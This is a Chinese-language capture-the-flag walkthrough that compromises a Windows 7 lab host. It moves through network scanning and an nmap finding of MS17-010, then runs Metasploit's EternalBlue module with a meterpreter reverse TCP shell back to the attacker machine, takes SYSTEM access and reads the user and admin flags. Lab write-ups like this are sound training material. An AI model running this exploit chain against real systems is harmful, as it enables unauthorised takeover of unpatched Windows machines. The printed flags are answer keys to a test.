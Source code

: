 # 一、信息收集

## 1.1 主机发现

使用 `arp-scan` 扫描局域网内的主机：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
192.168.205.132 08:00:27:03:82:a3       PCS Systemtechnik GmbH
...
```

发现目标主机：`192.168.205.132`

## 1.2 端口扫描

使用 `rustscan` 进行端口扫描：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ rustscan -a 192.168.205.132
...
Open 192.168.205.132:135
Open 192.168.205.132:139
Open 192.168.205.132:445
```

发现开放端口：

- **135/tcp**：RPC端点映射器
- **139/tcp**：NetBIOS会话服务
- **445/tcp**：SMB服务

根据端口特征判断这是一台Windows主机，且开放了SMB服务。

# 二、漏洞扫描

## 2.1 SMB漏洞扫描

使用 `nmap` 的漏洞脚本扫描SMB服务：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap --script=vuln -p445,139 192.168.205.132
...
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|         
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
...
```

**重要发现**：目标主机存在 **MS17-010（永恒之蓝）** 漏洞！

# 三、漏洞利用

## 3.1 启动Metasploit Framework

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ msfconsole
...
msf >
```

## 3.2 搜索MS17-010相关模块

```bash
msf > search ms17-010

Matching Modules
================

   #   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1   exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   ...
```

## 3.3 配置和执行EternalBlue攻击

选择EternalBlue模块并配置参数：

```bash
msf > use 0
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp

msf exploit(windows/smb/ms17_010_eternalblue) > show options
...
msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.205.132
RHOSTS => 192.168.205.132

msf exploit(windows/smb/ms17_010_eternalblue) > run
```

## 3.4 攻击执行过程

```bash
[*] Started reverse TCP handler on 192.168.205.128:4444 
[*] 192.168.205.132:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 192.168.205.132:445   - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7601 Service Pack 1 x64 (64-bit)
[+] 192.168.205.132:445 - The target is vulnerable.
[*] 192.168.205.132:445 - Connecting to target for exploitation.
[+] 192.168.205.132:445 - Connection established for exploitation.
[+] 192.168.205.132:445 - Target OS selected valid for OS indicated by SMB reply
...
[+] 192.168.205.132:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 192.168.205.132:445 - Sending egg to corrupted connection.
[*] 192.168.205.132:445 - Triggering free of corrupted buffer.
[*] Sending stage (203846 bytes) to 192.168.205.132
[*] Meterpreter session 1 opened (192.168.205.128:4444 -> 192.168.205.132:49159)
[+] 192.168.205.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.205.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 192.168.205.132:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
```

**攻击成功！**获得了Meterpreter会话，表明已经获取了系统最高权限。

# 四、系统访问与信息收集

## 4.1 获取系统Shell

```bash
meterpreter > shell
Process 1376 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>
```

确认获得了Windows 7系统的SYSTEM权限访问。

## 4.2 查找Flag文件

在用户目录中递归搜索txt文件：

```bash
C:\Users>dir *.txt /S
...
 Directory of C:\Users\Admin\Desktop
03/28/2024  06:51 PM                32 admin.txt.txt

 Directory of C:\Users\Lola\Desktop
03/28/2024  06:54 PM                32 user.txt
...
```

发现两个关键文件：

- 管理员Flag：`C:\Users\Admin\Desktop\admin.txt.txt`
- 用户Flag：`C:\Users\Lola\Desktop\user.txt`

## 4.3 获取Flag

```bash
C:\Users>type C:\Users\Lola\Desktop\user.txt
13e624146d31ea232c850267c2745caa

C:\Users>type C:\Users\Admin\Desktop\admin.txt.txt
ff4ad2daf333183677e02bf8f67d4dca
```

成功获取用户和管理员Flag！